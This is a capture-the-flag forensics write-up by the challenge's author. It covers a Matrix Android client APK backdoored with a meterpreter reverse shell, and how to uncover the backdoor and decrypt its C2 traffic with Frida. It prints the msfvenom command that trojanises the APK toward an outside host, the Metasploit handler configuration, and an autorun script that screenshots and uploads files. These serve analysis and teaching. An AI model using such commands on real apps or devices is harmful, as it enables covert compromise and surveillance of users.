




# Forensics//ˈbæk.dɔːr/ Writeup

## Notes from the creator

This challenge was created by injecting a meterpreter reverse tcp client into an Open Source app semi-randomly picked from the [F-Droid Catalogue](https://f-droid.org/packages/de.spiritcroc.riotx/).
By using msfvenom this is straight forward: `sudo msfvenom -x de.spiritcroc.riotx.apk -p android/meterpreter/reverse_tcp LHOST=matrix.ept.gg LPORT=13337 -o matrix.apk`

We then fired up a meterpreter listener on a server running on matrix.ept.gg with the following config:

#### **`run.rc`**
```bash
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 13337
set AutoRunScript /home/kali/backdoor/chall/multi.rc
set ExitOnSession false
exploit -j -z
```

#### **`multi.rc`**
```bash
sysinfo
screenshot -p /home/kali/backdoor/chall/downloads/ss.jpeg
upload /home/kali/backdoor/chall/flag.xor
rm flag.xor
screenshot -p /home/kali/backdoor/chall/downloads/ss2.jpeg
execute -H -f /system/bin/echo -a '68e4aa768c14bbdf5a9ea6bcf339206bd01ef1c513f4b46436'
exit
```

To kick it off we had a cronjob on reboot that would start metasploit with the above configuration.
#### **`autoexec.sh`**
```bash
/usr/bin/tmux new-session -d -s ENTER
/usr/bin/tmux detach -s ENTER
sleep 3
/usr/bin/tmux send-keys -t 0 "/usr/bin/msfconsole -r /home/kali/backdoor/chall/run.rc" ENTER
```

Our reverse TCP handler will now automatically execute the commands in `multi.rc` once we get a callback from the malicious APK.
The commands with the xored flag might feel a bit artificial or unsound, but the reasoning is that it should not be easy to cheese the solution by using only heapdumps and strings (@klarz). The intention was that you should somehow capture/extract the data from the C2 server to parse and view the commands that was sent to your device to get the full picture of what was happening to your phone. 

## Finding the backdoor

The first step to solve this challenge is to figure out that there is a meterpreter payload injected to the apk. This can be done in many ways and depends on your preferred methodology. Since this is a challenge targeted towards more experienced Android reversers/analysts I will not go into details, but looking at either network traffic or device file writes or tracing syscalls you would notice that something fishy is going on. The malicious code is also quite easily found by doing static analysis of the apk and you could potentially diff the original application with the modified malicious one. Either approach should eventually lead you to the package `de.spiritcroc.riotx.jtecm` and the `Bugeh` class where the staged payload is recieved from the C2 server and loaded by the application:



A nice opsec touch here is that the classes are deleted from the device file system after they are loaded. One way to obtain these classes for further inspection is to use [Frida](https://frida.re/) and hook the `java.io.File.Delete` method to prevent the deletion and fetch them from the device. 

```
Delete attempt prevented on  /data/user/0/de.spiritcroc.riotx/files/uxfn5w.jar
Delete attempt prevented on  /data/user/0/de.spiritcroc.riotx/files/met.jar
```

We'll retrieve the files and have a look in jadx-gui:



We can see that the first class (random chars.jar) is just another dynamical class loader that again loads the `met.jar`
Beware, when we open `met.jar` we are taking a leap into the mysteries and dark depths of the metasploit meterpreter and its Android implementation. After spending some time on understanding how the transport and communication between the client and the C2 server works we have quite a few possibilities on how to proceed. My approach was to go for the aesDecrypt method in `com.metasploit.meterpreter.Transport` where we should be able to get the cleartext data recieved from `public TLVPacket readAndDecodePacket(DataInputStream dataInputStream)`in the same class. 





## Decrypting and parsing the meterpreter traffic

Now that we have figured out there is a meterpreter backdoor in our APK and we have a full understanding of how the Android meterpreter imeplementation works the next step is to hook methods related to `javax.crypto` to preserve keys, IVs and cipher objects. Presuming that someone already had done this I found the following Frida script making my life much easier: [AES_HOOK](https://raw.githubusercontent.com/berkayyildi/Frida-Android-Hooking/master/AES_HOOK.txt)

This will give you the raw data of all traffic between the client and the server, but due to the complexity and fine design of meterpreter communication and packet structure it will be quite difficult to read by the human eye. Meterpreter uses a specific TLV packet structure to implement the protocol for communication between the cilent and the server. Thus, the raw data must be translated/parsed into TLV packets. Again I felt that this have had to be done before so it lead me to the following project: [REW-Sploit](https://github.com/REW-sploit/REW-sploit). Reading up on this it sounded like it should be able to exactly what I wanted, but there are some limitations in this tool and it is not able to decrypt the traffic without the keys used for the aesEncryption. But we are already able to get the unencrypted TLV packets by hooking the crypto methods so we can use the parts of this projects that are responsible for parsing the TLV packets to human readable commands and data.

Finally, we have all the pieces required to be able to capture, decrypt and parse the traffic coming from the C2 server to the backdoored android application. It took a bit of work to fit the REW Sploit MSF parser with the AES HOOK script and, but in the end we get a fully working live cleartext view of all commands coming in from the C2 server after we launch the APK:

https://user-images.githubusercontent.com/44871383/200541208-465bbf13-0fc5-4071-9123-a2f63c472052.mp4

There are other ways to accomplish this by doing various monitoring/tracing directly on the device or you can use other hooking approaches. e.g by hooking the dynamically loaded meterpreter classes that are responbible for executing commands etc. This is just one example that required me to get a better understanding of Frida and the underlying implementation of the meterpreter protocol.
